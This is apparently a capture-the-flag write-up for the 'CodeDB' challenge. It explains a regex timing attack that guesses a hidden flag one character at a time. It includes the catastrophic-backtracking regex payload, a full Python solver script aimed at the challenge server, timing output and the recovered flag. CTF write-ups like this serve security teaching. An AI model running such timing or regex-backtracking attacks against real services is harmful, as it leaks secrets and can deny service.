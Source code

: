 ```yaml
---
ai_date: 2025-04-27 05:28:37
ai_summary: Exploited timing difference in regex search to guess flag characters
ai_tags:
  - regex
  - timing-attack
  - search
created: 2025-01-11T17:14
points: 388
solves: 52
title: CodeDB
updated: 2025-07-14T09:46
---
```


We need to somehow access flag.txt which is not accessible via `/view/:fileName` nor via the worker.

A lot of effort was spent on trying to somehow prototype pollute the worker, but in the end, I used timing attack.

The regex payload.

```
/(^uoftctf\{w.*$)|(^u(.*?)*o(.*?)*f(.*?)*t(.*?)*c(.*?)*t(.*?)*f(.*?)*\{(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*~$)/
```

The idea is simple, the regex can exit early if the flag prefix + the character guessed is correct. Otherwise it would have to execute the super time consuming regex on the right side of the `|`.

- `(^uoftctf\\{w.*$)` simple match for the flag string.
- `(.*?)*` these will cause the regex to backtrack constantly, slowing everything down.

I will guess one character at a time, taking the one that takes least amount of time to respond.

```python
from statistics import mean
import time
import string
import random
import requests
from tqdm import tqdm

target = "http://34.162.172.123:3000/search"
# target = "http://localhost:3000/search"


def try_flag(flag):
    s = time.perf_counter()
    res = requests.post(target, json={"query": flag, "language": None})
    e = time.perf_counter() - s
    return e


def check(prefix):
    def escape_special_chars(s):
        return ['\\' + c if c in string.punctuation else c for c in s]
    center = ''.join(f"{c}(.*?)*" for c in escape_special_chars(prefix))
    flags = [
        (f"/(^{''.join(escape_special_chars(prefix+c))}.*$)|(^{center}(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*(.*?)*~$)/", prefix+c) for c in string.printable
    ]
    flags = [flag for flag in flags for _ in range(1)]
    random.shuffle(flags)
    results = []
    for flag, _flag in tqdm(flags, desc="Processing flags"):
        time = try_flag(flag)
        results.append((time, _flag))
    flag_times = {}
    for time_taken, flag in results:
        if flag not in flag_times:
            flag_times[flag] = []
        flag_times[flag].append(time_taken)

    results = [(flag, min(times), mean(times), max(times)) for flag, times in flag_times.items()]
    results.sort(key=lambda x: x[1])
    for f, mn, md, mx in results[:5]:
        print(f"{f}: {mn} {md} {mx}")
    diff = results[1][1] - results[0][1]
    print(f"time diff = {diff}")
    print(f"final = {results[0][0]}")
    return results[0][0]


if __name__ == "__main__":
    prefix = 'uoftctf{'
    while True:
        prefix = check(prefix)
        print(prefix)
```

I originally wanted to run each payload a few times but the regex was so slow that it wasn't needed.

As you can see, the difference in time is huge.

```
uoftctf{why_15: 0.141611400002148 0.141611400002148 0.141611400002148
uoftctf{why_1z: 1.058887399995001 1.058887399995001 1.058887399995001
uoftctf{why_1+: 1.05915049999021 1.05915049999021 1.05915049999021
uoftctf{why_1@: 1.0593788999831304 1.0593788999831304 1.0593788999831304
uoftctf{why_1b: 1.0597369000024628 1.0597369000024628 1.0597369000024628
time diff = 0.917275999992853
final = uoftctf{why_15
```

The difference only gets larger as the flag prefix increase in size.

```
uoftctf{why_15_my_4pp_l4661n6: 0.10187479999149218 0.10187479999149218 0.10187479999149218
uoftctf{why_15_my_4pp_l4661nQ: 1.057343899999978 1.057343899999978 1.057343899999978
uoftctf{why_15_my_4pp_l4661n!: 1.0575902000127826 1.0575902000127826 1.0575902000127826
uoftctf{why_15_my_4pp_l4661n\: 1.0577397999877576 1.0577397999877576 1.0577397999877576
uoftctf{why_15_my_4pp_l4661nb: 1.0579903999750968 1.0579903999750968 1.0579903999750968
time diff = 0.9554691000084858
```

```flag
uoftctf{why_15_my_4pp_l4661n6_50_b4dly??}
```

Hrm, maybe this was the intended solution?